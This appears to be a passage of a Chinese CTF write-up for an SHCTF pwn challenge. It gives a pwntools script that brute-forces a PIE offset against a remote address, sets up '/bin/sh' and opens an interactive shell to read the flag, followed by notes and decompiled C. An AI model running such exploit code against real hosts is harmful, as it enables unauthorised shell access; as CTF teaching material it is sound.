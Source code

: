 ```python
from pwn import *
context.log_level='debug'
q=1
while(q):
    for num in range(0xe):
        try:
            p=remote('210.44.150.15',46243)
            p.sendafter('code\n','TUTo_shi_da_shuai_ge')
            p.sendafter('name\n',(b'a'*(0x110-0x30)+b'/bin/sh\x00').ljust(0xF0,b'\x00'))
            p.send(b'echo flag'.ljust(0x20-4,b'\x00')+b'\x37'+p16((num<<12)+0x138D))
            p.sendline('cat flag\n')
            p.recvuntil(b'SHCTF')
            p.interactive()
            q=0
            break
        except:
            p.close()
```

>这道题不仅开了pie，nx还有金丝雀
>
>但是这些都被悄咪咪的绕过或者爆破了，并且这道题告诉了笔者，就算没有任何溢出，每一个输入点也都有用
>
>首先输入TUTo_shi_da_shuai_ge绕过对比保护，接下来是一个乍一看完全用不了的read函数，第三个参数是0xF0，但是偏移量是0x110，更别提覆盖返回地址了

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[256]; // [rsp+0h] [rbp-210h] BYREF
  char v5[264]; // [rsp+100h] [rbp-110h] BYREF
  unsigned __int64 v6; // [rsp+208h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init();
  memset(s, 0, sizeof(s));
  memset(v5, 0, 0x100uLL);
  puts("Welcome to SHCTF!");
  puts("Please enter the invitation code");
  read(0, s, 0x15uLL);
  if ( strncmp(s, "TUTo_shi_da_shuai_ge", 0x14uLL) )
  {
    puts("Invalid invitation code");
    exit(0);
  }
  puts("Please enter your name");
  read(0, v5, 0xF0uLL);
  printf("Hello %s, TUTo allows you to do something\n", v5);
  vuln();
  return 0;
}
```
